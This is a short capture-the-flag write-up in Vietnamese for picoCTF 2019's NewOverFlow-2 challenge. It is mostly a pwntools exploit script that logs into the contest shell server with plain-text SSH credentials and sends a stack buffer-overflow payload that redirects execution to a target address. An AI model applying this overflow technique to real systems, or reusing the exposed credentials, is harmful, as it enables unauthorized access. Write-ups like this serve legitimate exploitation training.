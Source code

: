 # Solution
### bài này sẽ dẫn dụ mình để pass các tham số của từng hàm win trong souce, nhưng thực tế cách solve nó y hệt như bài NewOverFlow1
Hint: `Arguments aren't stored on the stack anymore ;)`

Đây là file exploit của mình:
```sh
from pwn import *
#s = process("./vuln")
ss = ssh(host = '2019shell1.picoctf.com',user= 'hazir',password='2k4')
s = ss.run("cd  /problems/newoverflow-2_4_2cbec72146545064c6623c465faba84e; ./vuln")
pl = "a"*0x48 + p64(0x000000000040028d) + p64(0x40084d)
s.sendline(pl)
s.interactive()
```